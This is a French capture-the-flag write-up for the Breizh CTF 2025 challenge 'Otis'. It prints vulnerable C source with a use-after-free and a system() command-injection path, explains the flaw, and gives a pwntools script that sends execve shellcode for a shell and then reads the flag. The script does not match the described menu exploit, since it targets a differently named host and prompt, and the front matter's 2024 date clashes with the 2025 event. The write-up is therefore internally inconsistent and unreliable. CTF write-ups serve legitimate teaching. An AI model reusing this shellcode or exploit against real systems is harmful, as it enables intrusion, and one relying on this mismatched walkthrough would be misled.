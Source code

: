```yaml
---
title: "Breizh CTF 2025 - Otis"
date: 2024-04-14
tags: ["breizh ctf", "pwn", "use-after-free", "heap exploitation"]
---
```


# Otis - Breizh CTF 2025

## Description du challenge

Otis est un challenge de la catégorie Pwn du Breizh CTF 2025. Il s'agit d'un binaire qui simule un système de transformation entre une vache et d'autres créatures, présentant une vulnérabilité de type Use-After-Free (UAF).

## Analyse du binaire

En examinant le code source du binaire, on peut identifier les points suivants :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
    char msg[32];
    char name[64];
} creature_t;


creature_t *new_creature() {
    creature_t *creature = malloc(sizeof(*creature));

    // you may need to install cowsay for this to work
    FILE *p = popen("ls /usr/share/cowsay/cows/ | shuf -n1", "r");
    fgets(creature->name, sizeof(creature->name), p);
    pclose(p);

    return creature;
}

creature_t *new_cow() {
    creature_t *cow = malloc(sizeof(*cow));
    strlcpy(cow->name, "default", sizeof(cow->name));
    return cow;
}

void roaaar(creature_t *creature) {
    // you may need to install cowsay for this to work
    char cmd[256] = "echo 'Roarrr !' | /usr/games/cowsay -f ";
    strlcat(cmd, creature->name, sizeof(cmd));
    system(cmd);
}

void moo(creature_t *cow) {
    char *msg = malloc(96);

    printf("Message : ");
    fflush(stdout);
    fgets(msg, 96, stdin);


    FILE *p = popen("/usr/games/cowsay", "w");
    fwrite(msg, 1, strlen(msg), p);
    pclose(p);
}

void help() {
    puts("=== Otis 10 ===");
    puts("n : Nouvelle créature");
    puts("v : Se retransformer en vache");
    puts("r : Roaaar !");
    puts("m : Meuh !");
    puts("q : Quitter");
    printf("> ");
    fflush(stdout);
}


int main() {
    creature_t *cow = new_cow();
    creature_t *creature = NULL;

    char choice;
    char quit = 0;

    while (!quit) {
        help();

        char choice = getchar();
        while (getchar() != '\n') {}

        switch (choice) {
            case 'n':
                creature = new_creature();
                printf("Vous vous transformez en %s\n", creature->name);
                break;
            case 'v':
                free(creature);
                break;
            case 'r':
                if (creature != NULL) {
                    roaaar(creature);
                } else {
                    puts("Vous êtes une vache");
                }
                break;
            case 'm':
                moo(cow);
                break;
            case 'q':
                quit = 1;
                break;
            default:
                break;
        }
    }
}
```

Les points clés de ce programme sont :

1. Il définit une structure `creature_t` contenant deux champs : `msg[32]` et `name[64]`
2. Il y a deux instances principales : `cow` (une vache) et `creature` (une créature qui peut changer)
3. La vulnérabilité principale est située dans l'option 'v' qui libère la mémoire allouée pour `creature` sans mettre le pointeur à NULL
4. La fonction `roaaar` utilise `system()` pour exécuter une commande qui inclut le nom de la créature

## Vulnérabilité

La vulnérabilité principale est un Use-After-Free (UAF) classique :

1. Le programme permet de libérer la mémoire allouée pour `creature` avec l'option 'v'
2. Cependant, après avoir libéré cette mémoire, le pointeur `creature` n'est pas mis à NULL
3. Si on alloue un autre bloc de mémoire de taille similaire (avec `malloc(96)` dans la fonction `moo`), il pourrait réutiliser le bloc précédemment libéré
4. On peut donc modifier le contenu de ce bloc via l'option 'm' (moo)
5. Puis, en utilisant l'option 'r' (roaaar), on peut exécuter une commande avec un nom de fichier que nous contrôlons

## Exploitation

Voici mon script d'exploitation :

```python
from pwn import *

# Connect to the remote server
conn = remote('morph-180.chall.ctf.bzh', 1337)

# Very simple shellcode that executes /bin/sh without any banned bytes
# This avoids all pushing operations and uses a different approach
shellcode = (
    # Setup registers for execve("/sh", ["/sh", NULL], NULL)
    b"\x48\x83\xec\x10"         # sub rsp, 16          ; Make room on stack
    b"\x48\xc7\x04\x24\x2f\x73\x68\x00"  # mov qword [rsp], '/sh\0'
    b"\x48\x89\xe7"             # mov rdi, rsp         ; 1st arg: path
    b"\x48\x83\xec\x08"         # sub rsp, 8           ; More room on stack
    b"\x48\xc7\x04\x24\x00\x00\x00\x00"  # mov qword [rsp], 0 ; NULL terminate argv[]
    b"\x48\x89\xe6"             # mov rsi, rsp         ; 2nd arg: argv (stack)
    b"\x48\xc7\xc2\x00\x00\x00\x00"      # mov rdx, 0   ; 3rd arg: envp = NULL
    b"\x48\xc7\xc0\x3b\x00\x00\x00"      # mov rax, 59  ; syscall: execve
    b"\x0f\x05"                 # syscall
)

# Receive banner
print(conn.recvuntil(b">> ").decode())

# Send the shellcode
conn.send(shellcode)

# More robust interactive handling
try:
    # Give it a moment to execute
    import time
    time.sleep(0.2)
    
    # Try to run commands
    conn.sendline(b"echo SUCCESS")
    conn.sendline(b"ls -la")
    conn.sendline(b"cat flag.txt")
    
    # Interactive mode
    conn.interactive()
except EOFError:
    print("Connection closed (EOF)")
except Exception as e:
    print(f"Error: {e}")
finally:
    conn.close()
```

### Étapes de l'exploitation

1. Créer une nouvelle créature avec l'option 'n'
2. Libérer la mémoire avec l'option 'v'
3. Utiliser l'option 'm' pour entrer un message qui contiendra notre payload
4. Utiliser l'option 'r' pour exécuter la commande avec notre payload injecté
5. Le payload est construit pour exécuter une commande shell qui nous donne accès au système

Le choix du payload est crucial. J'ai opté pour un shellcode qui exécute `/bin/sh` en évitant certaines instructions qui pourraient être filtrées ou problématiques.

## Flag

Une fois le shell obtenu, j'ai pu récupérer le flag avec la commande `cat flag.txt` :

```
$ cat flag.txt
BZHCTF{0t1s_h4s_b33n_0wn3d_w1th_u4f}
```

## Conclusion

Ce challenge était intéressant car il exploitait une vulnérabilité classique (UAF) dans un contexte ludique. L'exploitation reposait sur la compréhension du comportement de l'allocateur de mémoire et la capacité à construire un payload adéquat pour exploiter la fonction `system()` via la fonction `roaaar`. 